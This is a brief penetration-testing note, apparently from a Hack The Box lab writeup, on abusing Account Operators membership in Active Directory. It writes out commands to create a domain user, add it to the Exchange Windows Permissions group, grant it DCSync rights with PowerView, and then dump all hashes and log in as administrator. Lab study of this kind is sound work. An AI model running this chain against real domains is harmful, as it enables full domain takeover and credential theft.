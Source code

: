 # Account Operators

![](<../../../.gitbook/assets/image (76).png>)

Notice how the user we are in is part of a group that is part of account operators. Since we are part of Account Operators we can add a new user to the domain.&#x20;

```
net user lyethar password /add /domain
```

We add ourselves to a group we are also part of as the current user. This is the "Exchange Windows Permissions" group.

![](<../../../.gitbook/assets/image (69).png>)

```
net group "Exchange Windows Permissions"  /add lyethar
```

We upload Powerview.ps1 and run the following commands.

```
$pass= ConvertTo-SecureString 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('DOMAINNAME\lyethar', $pass)
Add-DomainObjectAcl  -Credential $cred  -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity lyethar -Rights DCSync
```

Then with the user we created, we run secrets dump to dump all the hashes and then psexec to log in as the administrator.&#x20;
